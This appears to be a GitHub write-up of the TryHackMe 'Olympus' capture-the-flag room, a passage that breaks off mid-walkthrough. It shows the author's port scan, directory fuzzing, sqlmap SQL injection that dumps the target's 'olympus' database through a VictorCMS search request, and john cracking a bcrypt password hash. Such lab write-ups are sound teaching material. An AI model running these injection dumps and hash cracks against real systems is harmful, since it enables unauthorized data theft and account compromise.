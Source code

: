 # THM-Olympus-CTF


```bash
root@ip-10-10-230-85:~# rustscan -a 10.10.182.192 -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time \u231b

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.182.192:22
Open 10.10.182.192:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://olympus.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# Ennumeration
```bash
echo "10.10.27.68 olympus.thm" >> /etc/hosts
```
![image](https://user-images.githubusercontent.com/90036439/223972505-ab22dc4d-99b4-4295-96e5-7d3ec9145d5a.png)


```bash
root@ip-10-10-70-200:~# ffuf -u http://olympus.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 1948, Words: 238, Lines: 48]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
phpmyadmin              [Status: 403, Size: 276, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]
static                  [Status: 301, Size: 311, Words: 20, Lines: 10]
~webmaster              [Status: 301, Size: 315, Words: 20, Lines: 10]
:: Progress: [4655/4655] :: Job [1/1] :: 33790 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
![image](https://user-images.githubusercontent.com/90036439/223973205-ac9467ee-8ca2-43be-906c-0b69d4c14fcf.png)
![image](https://user-images.githubusercontent.com/90036439/223974836-e8de8d9a-c3f8-43d0-91da-08e3753e8d06.png)

```bash
root@ip-10-10-70-200:~# sqlmap -r victorCMS-search.request --dbs

[...]

[09:17:14] [INFO] fetching database names
available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys

```

```bash
root@ip-10-10-70-200:~# sqlmap -r victorCMS-search.request --dump -D olympus
```
![image](https://user-images.githubusercontent.com/90036439/223977555-baf68ac5-5e32-4d50-b2c7-c0ea7013e61a.png)
```bash
root@ip-10-10-70-200:~# john promotheus.hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s[.........]e       (?)
1g 0:00:06:29 DONE (2023-03-09 09:30) 0.002569g/s 10.31p/s 10.31c/s 10.31C/s 19861986..543210
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
![image](https://user-images.githubusercontent.com/90036439/223977977-be6d630d-dd90-4e56-80cf-56c1de2884c3.png)

![image](https://user-images.githubusercontent.com/90036439/223983373-552684f7-5e73-4b54-ba76-ff0d0c38858a.png)

![image](https://user-images.githubusercontent.com/90036439/223985036-95de1514-234a-4bfb-8717-edfccd387bd5.png)

Let's put together what we know. The IT guy made sure that the files that are sent to the server via chat have a random name. We also know that all messages are stored in the database including the files we send.
